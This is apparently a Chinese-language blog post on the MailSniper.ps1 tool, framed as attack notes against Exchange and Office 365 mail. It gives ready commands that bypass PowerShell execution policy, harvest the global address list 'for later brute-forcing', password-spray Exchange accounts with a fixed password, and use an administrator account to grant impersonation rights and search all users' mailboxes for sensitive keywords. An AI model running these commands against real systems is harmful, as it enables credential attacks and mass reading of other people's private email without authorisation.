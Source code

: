 # mailsniper.ps1


> 下载地址：https://github.com/dafthack/MailSniper.git



## mailsniper.ps1获取outlook所有联系人	

> 收集邮箱，为后续爆破准备



#### 前提

掌握其中一个用户邮箱的账户密码，并可以登录outlook





#### 利用

命令格式

```bash
# 在域内机器上执行
powershell -exec bypass
Import-Module .\MailSniper.ps1
Get-GlobalAddressList -ExchHostname outlook地址 -UserName 域名\域用户名 -Password 已知的邮箱密码 -OutFile 导出结果.txt
```



1.目标outlook搭建在自己的服务器上

```bash
ExchHostname指向自己的邮箱服务器地址即可
```



2.目标outlook在office365中

```bash
一样的道理，只不过把ExchHostname指向outlook.office365.com即可，username使用完整的邮箱，而不仅仅是用户名。

```







#### 爆破exchange（指定密码爆破邮箱）

```bash
powershell -exec bypass
Import-Module .\MailSniper.ps1
Invoke-PasswordSprayEWS -ExchHostname owa2013.rootkit.org -UserList .\users.txt -Password Admin12345 -ExchangeVersion Exchange2013_SP1

# -ExchHostname：ping -a exchange服务器ip -> 得到主机名 -> 主机名拼接域名（如：owa2013.rootkit.org）
# -ExchangeVersion：若不知道可先不指定
```







#### MailSniper检索邮件内容

Mailsniper包含两个主要的cmdlet，分别是`Invoke-SelfSearch`和`Invoke-GlobalMailSearch`，用于检索邮件中的关键字。

```bash
## 查找当前用户的Exchange邮箱数据
Invoke-SelfSearch -Mailbox zhangsan@fb.com -Terms *机密* -Folder 收件箱 -ExchangeVersion Exchange2013_SP1
# 查找邮件内容中包含pwn字符串的邮件，-Folder参数可以指定要搜索的文件夹，默认是inbox，使用时最好指定要搜索的文件夹名称（或者指定all查找所有文件），因为该工具是外国人写的，Exchange英文版收件箱为Inbox，当Exchange使用中文版时收件箱不为英文名，默认查找inbox文件夹会因找不到该文件而出错

## 查找所有用户的Exchange邮箱数据
Invoke-GlobalMailSearch -ImpersonationAccount zhangsan -ExchHostname test2k12 -AdminUserName fb.com\administrator -ExchangeVersion Exchange2013_SP1 -Term "*内部邮件*" -Folder 收件箱
# 利用administrator管理员用户为普通用户zhangsan分配ApplicationImpersonation角色，检索所有邮箱用户的邮件中，包括“内部邮件”关键字的内容
```



















































































































---

> 作者: [剑胆琴心](http://geoer.cn)  
> URL: https://shuai06.github.io/mailsniper-ps1/  


